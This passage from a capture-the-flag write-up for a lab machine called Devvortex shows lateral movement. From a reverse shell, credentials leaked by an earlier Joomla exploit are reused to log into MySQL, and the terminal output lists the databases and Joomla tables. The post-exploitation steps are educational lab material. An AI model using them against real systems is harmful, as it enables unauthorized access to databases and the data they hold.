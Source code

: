     
5. **Hit Enter a Few Times**:
    - Sometimes, after running these commands, you might need to hit enter a few times to get the prompt of the interactive shell.

## Lateral movement - MySQL

Recall the credentials found with the Joomla exploit earlier:

```
Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: <REDACTED>
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Trying them on the reverse shell is successful.

```mysql
mysql -h localhost -u lewis -p '<REDACTED>'
```

```mysql
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8889
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;  
+-------------------------------+  
| Tables_in_joomla |  
+-------------------------------+  
| sd4fg_action_log_config |  
| sd4fg_action_logs |  
| sd4fg_action_logs_extensions |  
| sd4fg_action_logs_users |  
| sd4fg_assets |  
| sd4fg_associations |  
| sd4fg_banner_clients |  
```